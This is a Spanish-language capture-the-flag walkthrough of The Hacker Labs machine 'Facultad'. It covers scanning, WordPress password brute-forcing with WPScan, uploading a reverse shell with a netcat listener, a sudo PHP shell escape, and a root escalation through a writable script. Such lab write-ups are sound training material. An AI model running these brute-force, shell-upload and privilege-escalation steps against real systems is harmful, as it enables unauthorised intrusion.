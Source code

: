 ```yaml
---
description: >-
  ✍️ Autor: beafn28🔍 Dificultad: Fácil📅 Fecha de creación: 30/1/2025 🖥️The
  Hacker Labs
---
```


# Facultad

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.61
```

para verificar la conectividad de red.

<figure><img src="../.gitbook/assets/image (1034).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 192.168.1.61
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)  (19).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 192.168.1.61
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../.gitbook/assets/image (1036).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web sea como el Studium de una asignatura en este caso se llama Administración de Sistemas.

<figure><img src="../.gitbook/assets/image (1037).png" alt=""><figcaption></figcaption></figure>

Ahora buscaremos directorios con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://192.168.1.61/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

<figure><img src="../.gitbook/assets/image (1038).png" alt=""><figcaption></figcaption></figure>

Vamos a ver el contenido del directorio`/images`.

<figure><img src="../.gitbook/assets/image (1039).png" alt=""><figcaption></figcaption></figure>

Nos la descargamos para realizar la técnica de esteganografía.

<figure><img src="../.gitbook/assets/image (1040).png" alt=""><figcaption></figcaption></figure>

Vemos el contenido del archivo. Descubrimos dos posibles usuarios.

<figure><img src="../.gitbook/assets/image (1041).png" alt=""><figcaption></figcaption></figure>

Vamos a ver el contenido del directorio`/education`.&#x20;

<figure><img src="../.gitbook/assets/image (1042).png" alt=""><figcaption></figcaption></figure>

Como podemos comprobar es un WordPress por lo que añadimos el dominio **facultad.thl** a **/etc/hosts**.

<figure><img src="../.gitbook/assets/image (1043).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Al tener el directorio wp-admin sabemos que es un panel de login pero no tenemos las credenciales por lo que con **WPScan** enumeramos el usuario.

```bash
wpscan --url http://192.168.1.61/education/ --enumerate u,vp
```

<figure><img src="../.gitbook/assets/image (1044).png" alt=""><figcaption></figcaption></figure>

Sabiendo el usuario tenemos que conseguir la contraseña.

```bash
wpscan --url http://192.168.1.61/education/ --passwords /usr/share/wordlists/rockyou.txt --usernames facultad
```

<figure><img src="../.gitbook/assets/image (1045).png" alt=""><figcaption></figcaption></figure>

Ingresamos las credenciales en el panel de **login**.

<figure><img src="../.gitbook/assets/image (1046).png" alt=""><figcaption></figcaption></figure>

Vemos que hay un apartado para subir archivos por lo que adjuntamos una [ReverseShell](https://www.revshells.com/).

<figure><img src="../.gitbook/assets/image (1047).png" alt=""><figcaption></figcaption></figure>

Nos ponemos en escucha.

```bash
nc -nlvp 443
```

<figure><img src="../.gitbook/assets/image (1048).png" alt=""><figcaption></figcaption></figure>

Hacemos el [tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/) para trabajar más cómodos.

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../.gitbook/assets/image (1049).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://gtfobins.github.io/gtfobins/php/" %}

```bash
sudo -u gabri php -r "system('/bin/bash');"
```

Como comprobamos en el mensaje la contraseña de Vivian está en el mail de Gabri.

<figure><img src="../.gitbook/assets/image (1050).png" alt=""><figcaption></figcaption></figure>

Mostramos el contenido que es la contraseña codificada en **Brainfuck** por lo que la decodificamos.

<figure><img src="../.gitbook/assets/image (1051).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (1052).png" alt=""><figcaption></figcaption></figure>

Iniciamos sesión con las credenciales.

<figure><img src="../.gitbook/assets/image (1053).png" alt=""><figcaption></figcaption></figure>

Tenemos permisos de **root** para ejecutar un script.

<figure><img src="../.gitbook/assets/image (1054).png" alt=""><figcaption></figcaption></figure>

Vemos el contenido y así podemos modificarlo para escalar privilegios. Nos damos cuenta que el script se ejecuta cada minuto en el **/etc/crontab**.

<figure><img src="../.gitbook/assets/image (1055).png" alt=""><figcaption></figcaption></figure>

```bash
#!/bin/bash
bash
```

Ejecutamos.

```
sudo /opt/vivian/script.sh
```

<figure><img src="../.gitbook/assets/image (1056).png" alt=""><figcaption></figcaption></figure>

Ya somos **root** por lo que ahora encontraremos la bandera en sus directorios.

Te deseo mucho éxito en tu búsqueda de las flags! Recuerda prestar atención a cada detalle, examinar los archivos y servicios con detenimiento, y utilizar todas las herramientas disponibles para encontrarlas. La clave para el éxito está en la perseverancia y en no dejar ningún rincón sin explorar. ¡Adelante, hacker! 💻🔍🚀
